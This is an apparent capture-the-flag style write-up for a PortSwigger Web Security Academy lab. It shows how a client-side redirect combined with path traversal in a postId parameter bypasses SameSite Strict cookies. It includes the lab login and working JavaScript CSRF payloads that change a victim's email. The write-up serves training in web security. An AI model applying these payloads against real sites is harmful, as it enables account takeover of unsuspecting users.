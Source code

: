 # SameSite Strict bypass via client-side redirect

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

update email
and send to repeater

go to cmment post comment
after comment post you will note page redirect automatically
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=2

it will be redirect to
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/2

https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account
it wll redirect to
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/my-account

### step2

```html
<script>
  document.location =
    "'https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

click on store and view expolit it will redirect to home page

### step3 final

```html
<script>
  document.location =
    "https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
